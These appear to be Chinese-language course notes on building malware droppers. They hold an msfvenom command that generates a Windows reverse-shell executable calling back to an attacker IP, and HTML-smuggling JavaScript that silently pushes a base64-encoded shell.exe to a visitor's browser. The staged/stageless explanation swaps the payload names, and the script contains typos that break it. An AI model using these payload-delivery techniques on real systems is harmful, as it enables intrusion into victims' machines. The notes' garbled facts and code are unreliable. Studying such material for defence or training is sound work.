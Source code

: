 # 3.1 Will You Be My Dropper

##  3.1.1 Staged vs. Non-Staged Payloads
msfvenom中使用_的 windows/meterpreter/reverse_tcp 为 Non-staged payloads 包含所有执行需要code，可直接完成cmd.exe / /bin/sh操作 体积较大，需要目标机器内存较大

msfvenom中使用/的为 windows/meterpreter_reverse_tcp 为staged payloads 最小化payload，分阶段，连接成功后再下载命令执行需要code，体积较小，需要的内存较小

参考：
https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/
https://buffered.io/posts/staged-vs-stageless-handlers/

## 3.1.2 Building Our Droppers
msfvenom -p windows/shell_reverse_tcp LHost=192.168.119.120 LPort=4444 -f exe -o /var/www/html/shell.exe

###  3.1.2.1 Exercise

## 3.1.3 HTML Smuggling
```html
<html>
  	<body>
        <a href="/shell.exe" download="shell.exe">DownloadMe</a>
    </body>
  <html>
```

这个需要用户点击下载
将shell.exe base64编码，用户点击链接后直接下载。
```html
<html>
  	<body>
        <script>
            //base64解码
            function base64ToArrayBuffer(base64){
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array(len);
                for (var i=0; i < len; i++){
                    bytes[i]=binary_string.charCodeAt(i);
                }
                return bytes.buffer;
            }
        	var file = "TVqQAAAA..."  // msfvenom 生成的shell.exe base64编码
            var data = base64ToArrayBuffer(file);
            var blob = new blob([data],{type:'octet/stream'});
            var fileName = 'shell.exe';
            var a = document.creatElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        </script>
    </body>
  <html>
```

### 3.1.3.1 Exercises

